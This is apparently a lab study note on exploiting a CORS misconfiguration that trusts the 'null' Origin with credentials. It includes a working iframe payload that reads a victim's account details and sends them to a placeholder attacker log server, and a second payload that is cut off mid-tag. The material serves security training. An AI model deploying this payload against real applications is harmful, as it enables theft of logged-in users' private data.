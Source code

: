 Origin header supports `null` value. Browsers can send null in various situations:

- Cross-origin redirects
- Requests from serialized data
- Request using the `file:` protocol
- Sandboxed cross-origin requests

The app may allow the "null" Origin to submit a cross-origin request and view the authenticated response.  Try submitting the following header:

```json
Origin: null
```

This is possible because the app is returning the following headers in a response, which contains sensitive information about the logged in user:

```html
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

With these headers in the response, an attacker can host malicious code in their server that will submit a request to the vulnerable app and direct the authenticated response back to their server. 

The malicious code will be within an \<iframe> that will cause the browser to set the Origin header to "null". The attacker now needs to trick the victim user into visiting their website while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Some payloads work, some don't:

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```

```html
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="Viewport" content="width=device-width", initial-scale="1.0">
        <title>Document</title>
    </head>
<body>
    <h1>Hello</h1>
    <iframe
sandbox="allow-forms allow-scripts allow-top-navigation"
```